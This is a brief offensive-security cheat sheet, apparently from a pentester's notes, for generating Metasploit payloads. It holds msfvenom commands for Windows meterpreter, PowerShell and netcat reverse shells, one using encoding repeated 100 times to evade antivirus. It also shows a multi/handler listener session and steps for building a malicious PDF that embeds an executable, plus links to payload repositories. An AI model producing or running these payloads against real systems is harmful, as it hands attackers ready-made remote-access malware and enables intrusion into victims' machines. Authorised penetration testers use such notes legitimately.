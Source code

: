 ### [Payload Resources]
https://netsec.ws/?p=331  
https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/  
https://github.com/nccgroup/Winpayloads  
https://github.com/xephora/PayloadsAllTheThings  
https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom  
https://www.offensive-security.com/metasploit-unleashed/fun-incognito/  

# [Generating Payloads on Windows using Metasploit]

### [Regular Reverse TCP]
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -f exe > shell.exe
[Poly Morphic Reverse TCP]
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -e x64/shikata_ga_nai -i 100 -f exe > file.exe

Creating a reverse tcp netcat comamnd
msfvenom -p cmd/unix/reverse_netcat lhost=<IP> lport=<port> R

msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > revshell.exe
```

### [Unique Reverse TCP]
```
msfvenom -p windows/powershell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > pshell.exe
```

### [Handler]
msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp

PAYLOAD => windows/x64/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > set LHOST eth0

LHOST => tun0

msf5 exploit(multi/handler) > set LPORT 32119

LPORT => 32119

msf5 exploit(multi/handler) > run

### [PDF]
```
Creating malicious PDF
use exploit/windows/fileformat/adobe_pdf_embedded_exe

set payload windows/meterpreter/reverse_tcp
set INFILENAME x.pdf
set FILENAME x.pdf
exploit
```
### [xls Macros]
https://www.manitonetworks.com/security/2016/8/15/macro-payloads-in-excel-with-metasploit  

### [xls XXE]
https://www.youtube.com/watch?v=LZUlw8hHp44  

